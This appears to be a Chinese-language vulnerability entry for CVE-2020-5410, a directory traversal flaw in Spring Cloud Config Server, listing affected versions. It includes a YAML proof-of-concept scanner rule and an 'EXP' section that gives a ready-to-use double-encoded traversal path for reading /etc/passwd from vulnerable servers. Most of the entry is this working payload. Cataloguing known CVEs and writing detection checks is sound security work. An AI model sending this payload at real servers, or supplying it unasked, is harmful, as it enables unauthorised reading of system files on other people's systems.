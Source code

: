 ## 漏洞概述

Spring Cloud Config、2.2.3 之前的 2.2.x 版、2.1.9 之前的 2.1.x 版以及不受支持的旧版本允许应用程序通过 spring-cloud-config-server 模块提供任意配置文件。恶意用户或攻击者可以使用特制的 URL 发送请求，从而导致目录遍历攻击。

## 影响范围

```http
Spring Cloud Config
2.1.0 to 2.1.8
2.2.0 to 2.2.2
```

## POC

```http
name: poc-yaml-spring-cloud-cve-2020-5410
rules:
  - method: GET
    path: >-
      /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23/a
    expression: |
      response.status == 200 && "root:[x*]:0:0:".bmatches(response.body)
detail:
  author: Soveless(https://github.com/Soveless)
  Affected Version: "Spring Cloud Config 2.2.x < 2.2.3, 2.1.x < 2.1.9"
  links:
    - https://xz.aliyun.com/t/7877
```

## EXP

```http
/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23/a
```

